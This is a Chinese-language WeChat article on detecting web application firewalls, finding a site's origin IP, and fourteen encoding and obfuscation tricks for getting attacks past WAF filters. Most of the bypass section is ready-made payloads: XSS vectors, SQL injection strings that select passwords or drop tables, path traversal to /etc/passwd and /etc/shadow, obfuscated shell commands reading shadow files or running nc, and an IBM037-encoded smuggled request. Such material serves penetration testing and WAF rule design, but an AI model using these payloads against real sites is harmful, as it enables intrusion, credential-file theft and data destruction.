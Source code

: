 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/K4mZK2DG6aPRZVewjaN1PA)

**什么是 WAF**
-----------

Web 应用防火墙是通过执行一系列针对 HTTP/HTTPS 的安全策略来专门为 Web 应用提供保护的一款产品，旨在检测和阻止 Web 应用程序上的网络攻击。WAF 作用于 OSI 模型的应用层。

渗透测试时，首先要确定 web 应用的真实 IP 地址，WAF 类型，然后尝试绕过 WAF。

**总结使用 WAF 的原因**
----------------

*   深度防御策略。
    
*   检测并阻止针对易受攻击的 Web 应用程序的攻击。
    
*   防范各种漏洞。 
    
*   保护公司的网络环境。
    

**受欢迎的 WAF 供应商**                
--------------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwIeOB3VWpOwqicYw8h7PvKssSvSqbFQ9TEv60F2XibrNdIx6C2BN5BNW6Yb11UL1ibjaCBZzTIib8NaQ/640?wx_fmt=png)

**如何找到 WAF 类型和真实 IP 地址**
------------------------

1. 使用 shodan.io 或 censys.io

2. 搜索 SPF 记录和 TXT 记录。

SPF 和 TXT 记录可能存在原始的 IP 地址。

3. 也可以在 “历史数据” 中进行检索，在旧记录中可能具有原始 IP。

查找域名、IP 地址等历史数据：securitytrails.com

### **如何证明 WAF 已经正确设置**

*   WAF 使用标准端口 80、443、8000、8008、8080 和 8088 端口。
    
*   WAF 在请求中设置自己的 cookie。
    
*   WAF 将自己与单独的标头关联。
    
*   WAF 在服务器标头中公开自己。
    
*   WAF 在响应内容中公开自己。
    
*   WAF 会根据恶意请求以唯一的响应代码进行响应。
    
*   从浏览器发送标准 GET 请求，拦截并记录响应头（特定的 cookie）。
    
*   从命令行发送请求（例如 cURL），然后检查响应内容和标头。
    
*   将 GET 请求发送到随机打开的端口，并检查可能暴露 WAF 身份的标语。
    
*   尝试一些 SQL 注入 playload，例如：“” 或 1 = 1 - 登录表单或忘记密码。
    
*   在某些输入字段中尝试使用 XSS 有效 playload，例如 <script> confirm（）</ script>。
    
*   尝试将../../../etc/passwd 添加到 URL 地址中的随机参数中。
    
*   将 URL 末尾的一些有效 playload（例如 “OR SLEEP（5）OR）” 添加到 url 作为随机参数。
    
*   使用过时的协议（例如 HTTP / 0.9）发送 GET 请求（HTTP / 0.9 不支持 POST 类型的查询）。
    
*   根据不同类型的交互检查服务器标头。
    
*   将原始的 FIN＆RST 数据包发送到服务器并识别响应。
    
*   边通道攻击–检查请求和响应内容的计时行为。
    

### **检查和绕过 WAF 的工具**

w3af — Web 应用程序攻击和审核框架

wafw00f —识别和指纹 Web 应用程序防火墙

BypassWAF –通过滥用 DNS 历史记录来绕过防火墙。该工具将搜索旧的 DNS A 记录，并检查服务器是否对该域进行答复。 

CloudFail –是一种战术侦察工具，试图在 Cloudflare WAF 后面找到原始 IP 地址。

**绕过 WAF 的技术**
--------------

### **1. 大小写转换技术**

*   组合大写和小写字符以创建有效的有效内容。
    

基本要求：

<script>confirm()</script>

绕过的技术：

<ScrIpT>confirm()</sCRiPt>

基本要求：

SELECT * FROM * WHERE OWNER = 'NAME_OF_DB'

绕过的技术：

sELeCt * fRoM * wHerE OWNER = 'NAME_OF_DB'

URL 中的示例：

http://example.com/index.php?page_id=-1 UnIoN SeLeCT 1,2,3,4

### **2. URL 编码技术**

*   使用％编码 / URL 编码对普通有效载荷进行编码。
    
*   您可以使用 Burp。它具有编码器 / 解码器工具。
    

被 WAF 阻止：

<Svg/x=">"/OnLoAD=confirm()//

绕过的技术：

%3CSvg%2Fx%3D%22%3E%22%2FOnLoAD%3Dconfirm%28%29%2F%2F

被 WAF 阻止：

UniOn(SeLeCt 1,2,3,4,5,6,7,8,9,10)

绕过的技术：

UniOn%28SeLeCt+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%29

URL 中的示例：

https://example.com/page.php?id=1%252f%252a*/UNION%252f%252a /SELECT

### **3. Unicode 技术**

*   Unicode 编码的 ASCII 字符为我们提供了绕过 WAF 的绝佳变体。
    
*   对整个或部分有效载荷进行编码以获得结果。
    

基本要求：

<marquee onstart=prompt()>

混淆：

<marquee onstart=\u0070r\u06f\u006dpt()>

被 WAF 阻止：

/?redir=http://google.com

绕过的技术：

/?redir=http://google。com (Unicode alternative)

被 WAF 阻止：

<marquee loop=1 onfinish=alert()>x

绕过的技术：

＜marquee loop＝1 onfinish＝alert︵1)>x (Unicode alternative)

基本要求：

../../etc/shadow

混淆：

%C0AE%C0AE%C0AF%C0AE%C0AE%C0AFetc%C0AFshadow

### **4. HTML 编码技术**

*   Web 应用将特殊字符编码为 HTML。对它们进行编码和渲染。
    
*   基本的绕过情况，带有 HTML 编码的数字和通用编码。
    

基本要求：

"><img src=x onerror=confirm()>

编码有效载荷：

&quot;&gt;&lt;img src=x onerror=confirm&lpar;&rpar;&gt; 

编码有效载荷：

&#34;&#62;&#60;img src=x onerror=confirm&#40;&#41;&#62; 

### **5. 混合编码技术**

*   这样的规则通常倾向于滤除特定类型的编码。
    
*   混合编码有效载荷可绕过此类过滤器。
    
*   换行符和选项卡，进一步增加了混淆。
    

混淆负载：

<A HREF="h  
tt p://6 6.000146.0x7.147/">XSS</A>

### **6. 使用注释技术**

*   注释使标准有效载荷向量模糊不清。
    
*   不同的有效载荷具有不同的混淆方式。
    

被 WAF 阻止：

<script>confirm()</script>

绕过的技术：

<!--><script>confirm/**/()/**/</script>

被 WAF 阻止：

/?id=1+union+select+1,2--

绕过的技术：

/?id=1+un/**/ion+sel/**/ect+1,2--

*   在攻击字符串中间插入注释。例如，/ *！SELECT * / 可能会被 WAF 忽略，但会传递到目标应用程序并由 mysql 数据库进行处理。
    

URL 中的示例：

index.php?page_id=-1 %55nION/**/%53ElecT 1,2,3,4   

   'union%a0select pass from users#

URL 中的示例：

index.php?page_id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3

###  **7. 双重编码技术**

*   Web 应用程序防火墙策略倾向于对字符进行编码以保护 Web 应用程序。
    
*   较差的过滤器（没有递归过滤器）可以通过双重编码来绕过。
    

基本要求：

http://example/cgi/../../winnt/system32/cmd.exe?/c+dir+c:\

混淆负载：

http://example/cgi/%252E%252E%252F%252E%252E%252Fwinnt/system32/cmd.exe?/c+dir+c:\

基本要求：

<script>confirm()</script>

混淆负载：

%253Cscript%253Econfirm()%253C%252Fscript%253E

### **8. 通配符混淆技术**

*   各种命令行实用程序使用全局模式来处理多个文件。
    
*   我们可以更改它们以运行系统命令。
    

基本要求：

/bin/cat /etc/passwd

混淆负载：

/???/??t /???/??ss??

二手字符：

/ ? t s

基本要求：

/bin/nc 127.0.0.1 443

混淆负载：

/???/n? 2130706433 443

二手字符：

/ ? n [0-9]

动态有效载荷生成技术：

*   编程语言具有不同的连接模式和语法。
    
*   这使我们能够生成可以绕过许多过滤器和规则的有效载荷。
    

基本要求：

<script>confirm()</script>

混淆负载：

<script>eval('con'+'fi'+'rm()')</script>

基本要求：

/bin/cat /etc/shadow

混淆负载：

/bi'n'''/c''at' /e'tc'/sh''ad'ow

Bash 允许执行路径串联。

基本要求：

<iframe/onload='this["src"]="javascript:confirm()"';>

混淆负载

<iframe/onload='this["src"]="jav"+"as&Tab;cr"+"ipt:con"+"fir"+"m()"';>

### **9. 垃圾字符技术**

*   WAF 可以轻松过滤掉简单的有效负载。
    
*   添加一些垃圾字符有助于避免检测（仅在特定情况下）。
    
*   此技术通常有助于混淆基于正则表达式的防火墙。
    

基本要求：

<script>confirm()</script>

混淆负载：

<script>+-+-1-+-+confirm()</script>

基本要求：

<BODY onload=confirm()>

混淆负载：

<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()>

基本要求：

<a href=javascript;alert()>ClickMe

绕过的技术：

<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe

### 10. 换行技术

*   许多具有基于正则表达式的 WAF 可以有效地阻止许多尝试。
    
*   换行技术（CR 和 LF）可以破坏防火墙的正则表达式并绕过某些东西。
    

基本要求：

<iframe src=javascript:confirm(hacker)">

混淆负载：

<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(hacker)">

### **11. 未初始化的变量技术**

*   可以使用未初始化的 bash 变量规避基于正则表达式的错误过滤器。
    
*   该值等于 null，其作用类似于空字符串。
    
*   Bash 和 Perl 允许这种解释。
    

一级混淆：正常

*   基本要求：  
    /bin/cat /etc/shadow
    
*   混淆负载：  
    /bin/cat$u /etc/shadow$u
    

二级混淆：基于位置

*   基本要求：  
    /bin/cat /etc/shadow
    
*   混淆负载：  
    $u/bin$u/cat$u $u/etc$u/shadow$u
    

第三层混淆：随机字符

*   基本要求：  
    /bin/cat /etc/passwd
    
*   混淆负载：  
    $aaaaaa/bin$bbbbbb/cat$ccccccc $dddddd/etc$eeeeeee/passwd$fffffff
    

### **12. 制表符和换行技术**

*   选项卡通常有助于规避防火墙，尤其是基于正则表达式的防火墙。
    
*   当正则表达式需要空格而不是制表符时，制表符可以帮助打破 WAF 正则表达式。
    

基本要求：

<IMG SRC="javascript:confirm();">

绕过的技术：

<IMG SRC="javascript:confirm();">

变体：

<IMG SRC="jav ascri pt:confirm ();">

基本要求：

http://test.com/test?id=1 union select 1,2,3

绕过的技术：

http://test.com/test?id=1%09union%23%0A%0Dselect%2D%2D%0A%0D1,2,3

基本要求：

<iframe src=javascript:confirm()></iframe>

混淆负载：

<iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:c&Tab;o&Tab;n&Tab;f&Tab;i&Tab;r&Tab;m&Tab;%28&Tab;%29></iframe>

### **13. 令牌破坏者技术**

*   对令牌的攻击企图打破使用令牌中断器将请求拆分为令牌的逻辑。
    
*   令牌破坏器是允许影响字符串的元素和某个令牌之间的对应关系的符号。
    
*   使用令牌破坏器时，我们的请求必须保持有效。
    
*   案例研究：令牌生成器的未知令牌
    

我们的有效载荷：

?id=‘-sqlite_version() UNION SELECT passwords FROM users --

*   案例研究：解析器的未知上下文（注意无上下文的括号）
    

第一有效载荷：

?id=12);DROP TABLE users --

第二有效载荷：

?id=133) INTO OUTFILE ‘xxx’ --

### **14. 其他格式的混淆**

*   许多 Web 应用程序支持不同的编码类型，并且可以解释编码。
    
*   我们始终需要将有效负载混淆为 WAF 不支持的格式，但是服务器会走私我们的有效负载。
    

IIS 案例： 

*   IIS 6、7.5、8 和 10 允许 IBM037 字符解释。
    
*   发送带有查询的编码参数。
    

原始请求：

POST /example.aspx?id7=sometext HTTP/1.1  
HOST: target.org  
Content-Type: application/x-www-form-urlencoded; charset=utf-8  
Content-Length: 27  
id2='union all select * from users--

带有 URL 编码的混淆请求：

POST /example.aspx?%89%84%F7=%A2%95%94%86%A3%88%89%95%87 HTTP/1.1  
HOST: target.org  
Content-Type: application/x-www-form-urlencoded; charset=ibm037  
Content-Length: 127  
%89%84%F2=%7D%A4%95%89%97%95%40%81%93%94%40%A2%85%93%85%84%A3%40%5C%40%86%99%97%94%40%A4%A2%85%99%A2%60%60

**总结：**

让我们总结一下以上所有内容。尝试使用不同的编码技术，其中一些会起作用。不要只是检查 DNS 记录，因为只有尝试不同的方法，你才能成功绕过 waf。

不要忘记，Web 资源中可以绕过任何保护措施，WAF 并不是解决所有问题的灵丹妙药。攻击者不会停止技术研究，而是一直在寻找新技术来攻击你的网络资产。

原创投稿作者：justone

公众号

**觉得不错点个 **“赞”**、“在看”，支持下小编****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**